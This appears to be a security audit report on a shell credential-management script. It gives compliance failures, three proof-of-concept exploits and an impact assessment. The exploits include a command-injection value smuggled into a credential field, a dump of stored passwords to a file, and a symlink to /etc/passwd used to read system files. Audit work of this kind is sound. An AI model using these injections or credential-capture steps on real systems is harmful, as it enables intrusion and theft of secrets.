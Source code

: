 ### Security Standards
| Standard | Status | Notes |
|----------|--------|-------|
| OWASP Top 10 | ❌ FAIL | Command injection (A03), Info disclosure (A01) |
| CWE Top 25 | ❌ FAIL | CWE-78 (Command Injection), CWE-200 (Info Exposure) |
| NIST 800-53 | ❌ FAIL | SI-10 (Input Validation), SI-11 (Error Handling) |
| ISO 27001 | ❌ FAIL | A.14.2.1 (Secure Development) |

---

## 🎭 Proof of Concept Exploits

### Exploit #1: Command Injection via Field Parameter
```bash
# Create malicious field parameter
get_credential "postgres" "admin" "password\$(touch /tmp/PWNED)"

# Verify exploitation
ls -la /tmp/PWNED  # File will exist if vulnerable
```

### Exploit #2: Information Disclosure
```bash
# Capture password values
list_stored_credentials > /tmp/captured_creds.txt

# Check for actual password values in output
grep "PGPASSWORD:" /tmp/captured_creds.txt
```

### Exploit #3: JQ Path Traversal
```bash
# Read arbitrary files via JQ
ln -s /etc/passwd malicious.json
ga_store_service_account "malicious.json"
```

---

## 💀 Impact Assessment

### Confidentiality
- **CRITICAL**: Credential values exposed via information disclosure
- **HIGH**: Arbitrary file read via JQ injection
- **HIGH**: Command execution reveals system information

### Integrity
- **CRITICAL**: Arbitrary command execution via injection
- **HIGH**: Malicious credential storage
- **MEDIUM**: System state corruption

